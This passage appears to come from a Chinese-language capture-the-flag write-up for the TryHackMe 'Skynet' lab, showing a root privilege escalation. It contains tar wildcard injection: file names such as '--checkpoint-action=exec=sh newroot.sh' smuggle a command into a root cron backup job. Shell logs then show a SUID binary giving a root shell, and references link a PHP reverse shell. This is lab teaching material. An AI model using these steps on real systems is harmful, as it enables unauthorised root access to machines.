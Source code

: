         ```
        touch "/var/www/html/--checkpoint=1"
        touch "/var/www/html/--checkpoint-action=exec=sh newroot.sh"   
        ```
        ```
        www-data@skynet:/var/www/html$ touch "/var/www/html/--checkpoint=1"
        touch "/var/www/html/--checkpoint=1"
        www-data@skynet:/var/www/html$ touch "/var/www/html/--checkpoint-action=exec=sh newroot.sh"
        <ml$ touch "/var/www/html/--checkpoint-action=exec=sh newroot.sh"     
        www-data@skynet:/var/www/html$ dir
        dir
        --checkpoint-action=exec=sh\ newroot.sh     admin   image.png	style.css
        --checkpoint=1      ai	    index.html    config  js
        45kra24zxs28v3yd			    css     newroot.sh
        ```

    + 大约一分钟后，定时任务作业，backups目录下的backup.sh脚本将会以root权限自动运行，从而能够成功创建一个SUID文件（/tmp/nroot），可以使用 -p 标志执行该SUID文件，这将允许以该文件的所有者身份（root）执行此二进制文件，进而可以根据此二进制文件的内容切换到root shell。

        ```
        www-data@skynet:/var/www/html$ cd /tmp
        cd /tmp
        www-data@skynet:/tmp$ ls
        ls
        nroot
        systemd-private-9d2eda8a29cd487ab3524eaba16cb9aa-dovecot.service-sUNMlm
        systemd-private-9d2eda8a29cd487ab3524eaba16cb9aa-systemd-timesyncd.service-NCme9L
        www-data@skynet:/tmp$ ./nroot -p
        ./nroot -p
        nroot-4.3# whoami
        whoami
        root
        ```

## Reference 

[Skynet](https://tryhackme.com/room/skynet)

[php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

[GTFOBins/tar](https://gtfobins.github.io/gtfobins/tar/)


